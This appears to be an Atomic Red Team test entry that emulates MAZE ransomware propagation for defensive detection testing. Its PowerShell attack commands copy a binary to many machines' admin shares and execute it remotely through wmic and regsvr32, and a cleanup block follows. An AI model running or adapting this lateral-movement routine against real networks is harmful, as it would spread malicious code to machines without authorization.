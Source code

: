 


<br/>
<br/>

## Atomic Test #21 - MAZE Propagation Script
This test simulates MAZE ransomware's propogation script that searches through a list of computers, tests connectivity to them, and copies a binary file to the Windows\Temp directory of each one. 
Upon successful execution, a specified binary file will attempt to be copied to each online machine, a list of the online machines, as well as a list of offline machines will be output to a specified location.
Reference: https://www.fireeye.com/blog/threat-research/2020/05/tactics-techniques-procedures-associated-with-maze-ransomware-incidents.html

**Supported Platforms:** Windows


**auto_generated_guid:** 70f4d07c-5c3e-4d53-bb0a-cdf3ada14baf





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| binary_file | Binary file to copy to remote machines | string | $env:comspec|
| exe_remote_folder | Path to store executable on remote machine (no drive letter) | string | &#92;Windows&#92;Temp&#92;T1105.exe|
| remote_drive_letter | Remote drive letter | string | C|


#### Attack Commands: Run with `powershell`! 


```powershell
$machine_list = "PathToAtomicsFolder\..\ExternalPayloads\T1105MachineList.txt"
$offline_list = "PathToAtomicsFolder\..\ExternalPayloads\T1105OfflineHosts.txt"
$completed_list = "PathToAtomicsFolder\..\ExternalPayloads\T1105CompletedHosts.txt"
foreach ($machine in get-content -path "$machine_list")
{if (test-connection -Count 1 -computername $machine -quiet) 
{cmd /c copy "#{binary_file}" "\\$machine\#{remote_drive_letter}$#{exe_remote_folder}"
echo $machine >> "$completed_list"
wmic /node: "$machine" process call create "regsvr32.exe /i #{remote_drive_letter}:#{exe_remote_folder}"}
else
{echo $machine >> "$offline_list"}}
```

#### Cleanup Commands:
```powershell
if (test-path "PathToAtomicsFolder\..\ExternalPayloads\T1105CompletedHosts.txt") 
{foreach ($machine in get-content -path "PathToAtomicsFolder\..\ExternalPayloads\T1105CompletedHosts.txt")
{wmic /node: "$machine" process where name='"regsvr32.exe"' call terminate | out-null
Remove-Item -path "\\$machine\#{remote_drive_letter}$#{exe_remote_folder}" -force -erroraction silentlycontinue}}
Remove-Item -path "PathToAtomicsFolder\..\ExternalPayloads\T1105OfflineHosts.txt" -erroraction silentlycontinue
Remove-item -path "PathToAtomicsFolder\..\ExternalPayloads\T1105CompletedHosts.txt" -erroraction silentlycontinue
```
